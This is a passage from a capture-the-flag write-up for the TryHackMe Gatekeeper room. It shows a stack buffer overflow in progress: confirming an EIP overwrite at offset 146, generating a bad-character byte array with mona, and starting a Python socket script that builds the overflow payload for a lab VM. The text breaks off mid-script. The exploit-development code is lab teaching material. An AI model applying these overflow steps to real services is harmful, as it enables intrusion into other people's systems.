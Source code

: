 **The EIP register has successfully overwritten by 4 B's (42 = B, 41 = A)!**

- Next, We need to find the bad characters:

**To do so, I'll use mona's `bytearray`:**
```
# Generate array of all possible characters except the null byte(\x00):
!mona bytearray -cpb "\x00"
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Gatekeeper/images/a12.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Gatekeeper/images/a13.png)

**Copy and paste those bytes to our python script:**
```py
#!/usr/bin/env python3

import socket

ip = '192.168.183.144' # Your Windows VM IP
port = 31337 # The gatekeeper.exe listening port

offset = 146
payload = b'A' * offset + b'B' * 4
bad_char = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
bad_char += b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
```